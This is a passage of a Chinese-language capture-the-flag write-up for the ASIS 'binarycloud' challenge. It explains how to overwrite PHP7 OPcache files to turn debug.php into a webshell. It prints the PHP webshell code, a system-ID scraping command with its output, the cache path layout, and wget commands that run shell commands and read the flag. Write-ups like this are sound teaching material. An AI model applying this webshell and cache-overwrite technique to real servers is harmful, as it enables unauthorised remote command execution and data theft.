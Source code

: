 而现在我们的目标是通过重写debug.php、upload.php、index.php的缓存。

首先我们需要生成一个debug.php.bin，就是下面这个文件的编译版
```
<?php
  system($_GET['cmd']);
?>
```
根据文章我们还需要计算出system_id
这个不错的脚本是
[https://github.com/GoSecure/php7-opcache-override](https://github.com/GoSecure/php7-opcache-override)
```
$ ./system_id_scraper.py https://binarycloud.asis-ctf.ir/debug.php
PHP version : 7.0.4-7ubuntu2
Zend Extension ID : API320151012,NTS
Zend Bin ID : BIN_SIZEOF_CHAR48888
Assuming x86_64 architecture
------------
System ID : 81d80d78c6ef96b89afaadc7ffc5d7ea
```
需要跑一下`phpinfo()`的页面

然后我们在本地生成恶意的`debug.php.bin`文件，首先是用十六进制编辑器修改文件开头的systemid，上传
需要注意的是debug.php.bin的路径
```
[cache location][system id][document root][debug.php.bin]
```
在这里的题目就是
```
cache/81d80d78c6ef96b89afaadc7ffc5d7ea/home/banarycloud/www
```

之后我们访问`https://binarycloud.asis-ctf.ir/debug.php`就是我们的webshell了
```
 wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="ls /"
WH4T_1S_7H3_FL4G
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
```
$ wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="cat /WH4T_1S_7H3_FL4G"
ASIS{5e00f204374f9ce481acc97294eda1f0}
```